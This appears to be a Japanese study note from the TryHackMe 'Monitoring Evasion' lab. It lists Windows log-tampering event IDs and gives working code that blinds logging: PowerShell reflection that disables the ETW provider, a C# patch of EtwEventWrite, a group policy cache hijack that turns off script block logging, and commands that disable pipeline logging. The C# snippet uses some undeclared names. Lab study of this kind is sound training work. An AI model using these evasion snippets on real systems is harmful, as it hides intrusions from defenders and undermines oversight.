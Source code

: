 # ログと監視回避

https://tryhackme.com/r/room/monitoringevasion

## 基本

### Windows イベント ID 一覧

https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/default.aspx

### イベントの改ざん操作により発生するイベント

- 1102 Windows セキュリティ監査ログがクリアされたときのログ
- 104 ログファイルがクリアされたときのログ
- 1100 Windows イベント ログ サービスがシャットダウンされたときのログ

### EventViewr 上の Powershell ログのパス

Microsoft/Windows/PowerShell/Operational

## 回避

### Powershell リフレクション

ETW を無効にする。この実行により生成されるイベントがあることに留意。

```ps
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```

### パッチ

EtwEventWrite 関数の無効化

```cs
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");

uint oldProtect;
Win32.VirtualProtect(
	etwFunction,
	(UIntPtr)patch.Length,
	0x40,
	out oldProtect
);

// ret 14h 命令を書き込み
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch,
	0,
	etwEventSend,
	patch.Length
);

VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);

Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```

### スクリプトブロックログ

- 4103 コマンド呼び出しをログに記録する
- 4104 スクリプトブロックの実行をログに記録する

#### グループポリシーの乗っ取り

```ps
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
$GroupPolicySettings['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
$GroupPolicySettings['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

### ログパイプライン

```ps
$module = Get-Module Microsoft.PowerShell.Utility # Get target module
$module.LogPipelineExecutionDetails = $false # Set module execution details to false
$snap = Get-PSSnapin Microsoft.PowerShell.Core # Get target ps-snapin
$snap.LogPipelineExecutionDetails = $false # Set ps-snapin execution details to false
```
